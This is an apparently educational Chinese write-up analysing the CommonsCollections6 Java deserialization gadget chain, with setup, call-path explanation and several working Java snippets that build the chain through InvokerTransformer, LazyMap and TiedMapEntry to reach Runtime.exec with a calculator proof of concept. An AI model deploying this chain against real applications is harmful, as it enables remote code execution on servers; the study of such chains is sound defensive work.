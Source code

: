 # CommonsCollections6分析

## 1.环境搭建

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

**版本限制:**`1.7.*<=jdk<=1.8.*`

## 2.调试分析

### 2.1 低版本jdk

CC6这条链子的Sink点与CC1是相同的，通过`InvokerTransformer`的反射调用，触发命令执行，代码如下：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"})
});
```

然后找到一处调用`transform`方法的位置，这里使用的是`LazyMap#get()`与CC1不同,代码如下：

```java
public Object get(Object key) {
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```

判断装饰的map是否含有传入的key，如果有就返回该key对应的值。

在低版本的jdk中(例:jdk<=8u65),由于`AnnotationInvocationHandler#readObject()`中的代码还没有进行Fix，存在调用`xxx.get(...)`的调用方式，因为该类的实际功能就是动态代理的Handler类，类中存在`invoke`方法，可以实现一个回调。

```java
public Object invoke(Object proxy, Method method, Object[] args) {
	...
  // Handle annotation member accessors
  Object result = memberValues.get(member);
  ....
}
```

所以，通过`Proxy.newProxyInstance(ClassLoader loader,Class<?>[] interfaces,InvocationHandler handler)`可以创建一个代理类：

1. loader 一般都是用当前类的类加载器
2. interfaces 指定实现接口，该接口内声明的方法调用后都会触发回调
3. handler 回调函数，当执行interfaces接口中声明的方法时候。

整理一下思路：

readObject中存在调用Map接口内声明的方法`entryset`,那么当反序列化之后调用到`memberValues.entrySet()`就会触发回调方法`invoke`

<img src="./img/image-20240331134519517.png" alt="image-20240331134519517"  />

在方法中存在` memberValues.get(member)`的调用方式，虽然参数不可控，但是根据CC1的分析，因为存在`ConstantTransformer`不影响执行命令，根据这个思路，构造如下exp：

```java
  ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
          new ConstantTransformer(Runtime.class),
          new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
          new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
          new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"})
  });

  HashMap<Object,Object> hashMap = new HashMap<>();
  hashMap.put("321","test");
  Map lazyMap = LazyMap.decorate(hashMap,chainedTransformer);


  Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
  //通过反射获得cls的构造函数
  Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
  //这里需要设置Accessible为true，否则序列化失败
  ctor.setAccessible(true);
  //通过newInstance()方法实例化对象
  InvocationHandler handler = (InvocationHandler)ctor.newInstance(Bean.class, lazyMap);
  Object o = Proxy.newProxyInstance(CC6.class.getClassLoader(), lazyMap.getClass().getInterfaces(), handler);

```

#### 2.1.1 调用图

![image-20240331135715327](./img/image-20240331135715327.png)



### 2.2 通用

这条链子在大部分jdk与CC链中都是存在的，它的**Sink**点与之前是相同的，同样需要利用到`InvokerTransformer#transform`中的反射调用,之后的话还是需要通过`LazyMap#get()`调用，需要找到一处存在`xxxx.get(xxx)`调用的位置.

在代码中发现,`TiedMapEntry#getValue()`就存在如下调用：

```java
public Object getValue() {
    return map.get(key);
}
```

之后同样的在这类中，存在`hashCode()`等方法里，都存在`getValue()`的调用，学习过URLDNS链会知道，在HashMap的反序列化中就有`hashCode()`的调用。根据这个思路，就可以构造：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"})
});

HashMap<Object,Object> hashMap = new HashMap<>();
hashMap.put("321","test");
Map lazyMap = LazyMap.decorate(hashMap,chainedTransformer);

TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"321");
HashMap<Object, Object> hash1 = new HashMap<>();
hash1.put(tiedMapEntry,"123");

Class tied = TiedMapEntry.class;
Field tiedKey = tied.getDeclaredField("key");
tiedKey.setAccessible(true);
tiedKey.set(tiedMapEntry,"aaaa");
//lazyMap.clear();
```

由于hashMap.put()操作也会调用`hashCode()`，之前有提到当`lazyMap#get(...)`调用后，判断map是否存在key，如果不存在就会put进去。

当反序列化的时候进行判断发现已经存在对应的键值对就不会调用`xx.transform(...)`方法，在这里的处理方式就是先设置相同的，然后通过反射进行修改，也可以通过`lazyMap.clear()`进行清除。

相对来说这个链子会比较简单，容易理解一些。

#### 2.2.1 调用图

![image-20240331150450958](./img/image-20240331150450958.png)









